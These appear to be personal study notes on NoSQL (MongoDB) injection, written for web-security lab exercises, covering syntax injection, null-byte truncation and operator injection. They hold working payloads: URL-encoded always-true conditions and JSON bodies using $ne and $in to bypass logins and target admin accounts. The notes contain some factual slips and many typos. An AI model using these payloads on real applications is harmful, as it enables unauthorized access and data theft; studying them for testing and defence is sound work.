 SQL injection si when you able to execute database commands from a backend server.
![[Pasted image 20241027171915.png]]
This avaible you to:
- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.
For more information check [[Injection]] in APIS
There are two different types of NO-SQLI:
##### Syntax Injection
The attacker aimed to break the syntax of the Mongo query, imagine you got the following request with this syntax:
```js
db.users.find({ "username": "user1", "password": "pass" })
```
So you could craft a payload which always will return true:
```js
db.users.find({ "username": "user1", "password": { "$ne": null } })
```
We'll see it more clear soon
##### Operator injection 
This occurs when you can use NoSQL query operators to manipulate queries, for example:
```js
db.users.find({ "username": "user1", "password": "pass123" })
```
And then inject:
```js
db.users.find({ "username": "user1", "password": { "$gt": "" } })
```
As the pasword will be always greater than an empty string whis will return false. we'll retake on this later

------
## Syntax Injection
### Testing for Syntax Injection 
So to detect this we need to cause an error on the datas base with the provided strings:
```
'"`
{ ;$Foo} 
$Foo \xYZ
```
So imagine you got a URL with the following query:
```url
https://insecure-website.com/product/lookup?category=fizzy
````
use the following url:
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.
###### Determining which character is proseced
To know what character is causing the issue we can check one by one, as submit `'`, so the mongo db query would be like this:
```
this.category == '''
```
And if this response differ from the original that may indicate that you broke the query syntax, you could confirm this by sending a correct syntax:
```
this.category == '\''
```
###### Confirming conditional behavior
So to confirm this we shpuld to send 2 conditions, one true, `' && 0 && 'x`, and other false, `' && 1 && 'x`:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```
and the true one:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
###### Overriding existing conditions
Once you identified this you can attempt to override existing conditions to exploit the vulnerability, for this you can use a JS condition that alwas will be true `'||'1'=='1`
```url
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```
and this result in the following mongodb query:
```js
this.category == 'fizzy'||'1'=='1'
```
Following this we'll solved the lab: [[Detecting_NoSQLI]]

--------
## Operator Injection
### Null byte
##### Example introduction
For this example will need to understand the `this.release` Mongodb method, which works to bring certain elements and hidden other (for example an application use that to get the 'Actives' users and not get others like 'AFK'). Then we got the following query:
```js
this.category == 'fizzy' && this.released == 1
```
This query limits the results to products with the specified `category` that have also been marked as released (`released == 1`).

This is nice, but There's a conflicting character which cause to ignore all the character after it. So this means that any additional conditions on the MongoDB query are ignored. By adding a null byte (`%00`), as in `category=fizzy'%00`, the injected payload can terminate the query early if MongoDB (or the application layer) stops processing characters after the null byte.

#### So what are the Operator Injection

In some cases we are be able to use operan, which are built in operator of mongodb as the follow ones:
   - NoSQL databases like MongoDB use query operators to specify conditions within queries.
   - Common MongoDB operators include:
     - `$where`: Matches documents satisfying a JavaScript expression.
     - `$ne`: Matches values not equal to the specified value.
     - `$in`: Matches values specified in an array.
     - `$regex`: Matches documents based on a regular expression.
#### **Injecting Query Operators**
   - **JSON Injection**: Operators can be inserted as nested JSON objects, instead of strings.
     - Example: `{"username":"wiener"}` → `{"username":{"$ne":"invalid"}}`
   - **URL-Based Injection**: For URL parameters, try injecting operators directly.
     - Example: `username=wiener` → `username[$ne]=invalid`
   - If this doesn’t work:
     1. Change the HTTP method from `GET` to `POST`.
     2. Set `Content-Type` to `application/json`.
     3. Include JSON data in the body, injecting operators within JSON.

   - **Tools**: Burp Suite’s **Content Type Converter** can help automatically convert requests from URL-encoded to JSON format for easier injection.

#### **Testing for Operator Injection Vulnerabilities**

Consider we got an endpoint accepting credentials, like a `POST` request with JSON:
```json
     {"username":"wiener","password":"peter"}
```
   - To test for operator injection, replace `username` or `password` values with an operator, such as `$ne`:
     ```json
     {"username":{"$ne":"invalid"},"password":"peter"}
     ```
   - If the operator is accepted, it will authenticate users who don’t have the username “invalid.”

If we inject this in both fields we could completely bypass all the authentication
```json
     {"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```
   - This matches all users where both fields aren’t “invalid,” potentially logging in as the first user in the collection.

#### **Targeting Specific Users**

   - To target a known or guessed username, you can use operators like `$in` with an array of common usernames:
     ```json
     {"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
     ```
   - This payload returns users matching any username in the `$in` array and where the password isn’t empty, potentially exposing privileged accounts. 

Using these techniques, operator injection can enable access control bypasses, unauthorized data access, or privilege escalation within NoSQL applications.

check [[lab-nosql-injection-extract-data]]